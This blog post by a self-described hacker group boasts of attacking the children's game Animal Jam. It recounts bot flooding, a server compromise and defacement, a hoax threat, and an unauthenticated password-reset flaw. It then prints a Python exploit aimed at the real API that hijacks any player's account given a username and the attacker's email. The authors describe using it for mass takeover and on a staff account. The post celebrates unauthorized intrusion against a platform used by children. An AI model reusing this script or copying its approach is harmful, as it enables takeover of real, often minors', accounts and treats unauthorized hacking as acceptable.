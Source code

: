 ```yaml
---
layout: post
title: "Electric Boogaloo: Hacking Animal Jam"
subtitle: "~ AKA, how we pwned Animal Jam ~"
date: 2021-9-7
author: chob
tags: pentesting
finished: true
excerpt_separator: <!--more-->
---
```


> **DISCLAIMER**: The aim of this post is not to offend or attack anyone. Instead it is to inform to you the story about how Animal Jam was pwned by us (AstroSquad). I do not condone malicious behavior. Thank you for understanding.

# Preface
As the title suggests, this post will touch on how me and a few other junior security researchers (also nicknamed "AstroSquad") were able to "hack" or "pwn" a poorly secured kids game called "Animal Jam". <!--more--> <br>

This all started when one of our researchers (psuedo named "Moon") looked into Animal Jam, he messed around with the API and told us that there wasn't a rate limit on the RPS (Request Per Second), one of us wrote a script to automate the registration process and made hundreds of bots that joined the game servers which froze players clients. They shortly added rate limit globally to the API. That was only the start, on August 6 2020, another one of our researchers (psuedo named "HellSec") found the IP of one of their boxes, we assumed that we couldn't get into it at first, but within a few hours, we managed to pwn the box. Surprisingly there was not much on the box, it was a AWS box and it was the box for the Animal Jam shop (**shop.animaljam.com**). With a limited time, we made a simple deface page and overwrote it to the index page.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/compilation.png" target="_blank"><img class="centerImgMedium" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/compilation.png"></a>

As you can see from the complilation above, they believed we had a apparent "ip logger" and other malicious items, this gave us a notorious reputation as this group of 40 year olds in their mothers basement that are very **1337**, which was not the case. From there, we wanted to test how much the community and the company WildWorks was afraid of apparent fake threats. So around October 2020, we made a threat that we were going to "hack" Animal Jam on halloween, the community freaked and made a bunch of YouTube videos with WildWorks putting their servers on lockdown. It was the biggest lawl for us. <br>

Now that you understand the context before the main pwn; without further ado, let's get into the main pwn. On August 16, 2021, we discovered a 0day **no-auth** full account takeover on Animal Jam. How? simple. A fucking password reset endpoint. Let me repeat that, a fucking **password reset endpoint**, someone must've been some crack while writing the endpoint lol (╯°□°）╯︵ ┻━┻.

****
# Discovering the vulnerability
Basically, one of our researchers used Fiddler to capture all the traffic coming from the Animal Jam application because he was capturing all the traffic he managed to come across the `/disable` endpoint. Every account on Animal Jam is linked to a certain "parent account", and since he got the endpoint for `/disable` he was able to look at the post data (the data that is sent with the post request) he noticed on the post data you were able to send a custom email in the post data so he replaced the email, not expecting anything until.. he recieved a email from Animal Jam and funny enough, once he clicked on the disable account link, it automatically overrided the email that is already linked to the account with the custom email you put in.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/lawl.gif" target="_blank"><img class="centerImgSmall" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/lawl.gif"></a>

Only issue with this is that it didn't disable the player, but knowing it did link the account, he searched for other endpoints using Fiddler that had the same post data requirements, until.. he found the `/send_password_reset` endpoint and by sending the request he was able to takeover ANY players account by sending a post request with the generosity with of course, no authentication at all. He then alerted us about this and showed it wasn't a joke on a screenshare.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/meme.jpg" target="_blank"><img class="centerImgLarge" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/meme.jpg"></a>

****
# Mass Exploitation
Now we know the vulnerability, how do we use it on a large scale attack? Simple! All we need to do is write a script to send a post request with the post data and the target with a burner email.

### - Writing the exploit using python3
Lets start by making a Python script and then importing the request library for sending the post request and sys for argument handling and then supplying the endpoint with the request:
```python
#!/usr/env/python3
import requests
import sys

class Exploit:

    def __init__(self, username, email):
        self.username = username
        self.email = email

    def execute(self):
        endpoint = f'https://api.animaljam.com/game_account/{username}/send_password_reset/desktop'
        return requests.post(url=endpoint, data={'email': email, 'user_name': username}, headers={'auth': 'null'})

def main():
    if len(sys.argv) < 3:
        print(f'Usage: py {sys.argv[0]} <USERNAME> <YOUR_EMAIL>')
        sys.exit()

    username = sys.argv[1]
    email = sys.argv[2]

    Exploit(username, email).execute()

if __name__ == '__main__':
    main()
```
and **PWNED**!! Now you can takeover anyones account just by supplying the username and a burner email lol. <br>
<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/beamed.png" target="_blank"><img class="centerImgSmall" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/beamed.png"></a>

Although it was patched due to the security advisory we released the next day because Animal Jam was having some issues making a patch lol, here's a gif & a image of us on the AJHQ account on the parents dashboard using this exploit.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.gif" target="_blank"><img class="centerImgSmall" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.gif"></a>
<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.png" target="_blank"><img class="centerImgLarge" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.png"></a>

****
# Conclusion
This company "Animal Jam" is a example of greed over good security, if any companies are reading this, don't be like these guys, but hey,
thank you for reading if you got this far, this is my first blog i've made and I'll be making more very soon and this was funny fun to make <br>
(ﾟДﾟ)y─┛~~ if you enjoyed reading this, go ahead and share it :)
